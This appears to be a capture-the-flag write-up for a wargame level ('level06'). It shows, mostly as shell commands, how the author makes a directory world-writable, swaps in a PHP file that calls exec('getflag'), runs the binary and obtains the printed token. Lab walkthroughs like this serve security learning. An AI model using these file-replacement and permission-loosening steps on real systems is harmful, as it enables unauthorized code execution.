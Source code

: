 # level06 solve

To begin, when we get logged and trying to see if we got the file we can see we have two files

```
$ ls
> level06
> level06.php
```

So we decide to run the binary level06 and see he us the level06.php, after see that we decide to try to change the php file for doing a php request launching the getflag, and we found <a href="https://www.php.net/manual/fr/function.exec.php">that</a>.

result:

```
<?php
	echo exec('getflag');
?>
```

After modifing the php file with an exec command, we need to get the right to modify file on the repository

```
$ chmod 777 .
```

And after that, we just need to move the php file, because it's easier, we going to prefer using an echo and mv on the tmp folder between than use move with the scp command but in case...

scp

```
$ scp -P 4242 level06/Ressources/level06.php level06@ip:level06.php
```

bash

```
$ chmod 777 . ; echo "<?php echo exec('getflag'); ?>" > /tmp/level06.php ; mv /tmp/level06.php .
```

trying...

```
$ ./level06
> Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level05">previous level</a> - <a href="../../level07">next level</a>
